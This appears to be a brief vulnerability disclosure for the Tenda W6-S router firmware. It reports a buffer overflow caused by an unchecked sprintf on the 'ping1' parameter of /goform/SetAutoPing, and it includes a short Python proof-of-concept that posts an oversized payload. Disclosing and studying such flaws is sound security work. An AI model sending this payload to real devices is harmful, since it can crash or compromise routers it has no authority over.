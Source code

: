 # buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formSetAutoPing via parameter 'ping1'

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:

![](5.png)

get value from ping1, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.1.13/goform/SetAutoPing"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'ping1': payload, 'linkEn':1})
```

